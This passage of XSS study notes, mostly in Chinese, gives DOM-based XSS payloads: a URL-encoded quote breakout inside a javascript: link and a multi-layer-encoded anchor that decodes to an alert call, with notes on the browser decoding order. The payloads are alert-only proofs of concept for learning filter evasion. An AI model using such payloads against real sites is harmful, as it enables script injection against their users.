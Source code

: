 15. `<a href='javascript:focusUser("616d75576d3242746c5a7076%22-alert(777)-%22",1,"focusId");'>`  
点击会触发。先进行urldecode，这样 js 函数内的双引号就可以闭合。  
`<a href='javascript:focusUser("616d75576d3242746c5a7076%22-document.write(%27%3Ciframe/onload=alert(11)%3E%27)-%22",1,"focusId");'`  
在 ie 点击时会触发，可以将 `"-document.write('<iframe/onload=alert(11)>')-"` 提取出来作为一条 domxss 的测试用例。  

Bonus         
``` html
<a
href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;
&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;
&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;
&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;
&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;
&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;
&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;
&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x31;
&#x35;&#x29;"></a>
```
You figure out the encoding on this yourself!  
(add: html decode --> url decode --> js decode, then it works!  
if href's value contain &#38;#34;  if will turn into &#38;quot;  inorder not to close the pre double quote )  



## Reference
《Web 前端黑客技术揭秘》  
[Deep dive into browser parsing and XSS payload encoding](http://www.attacker-domain.com/2013/04/deep-dive-into-browser-parsing-and-xss.html)

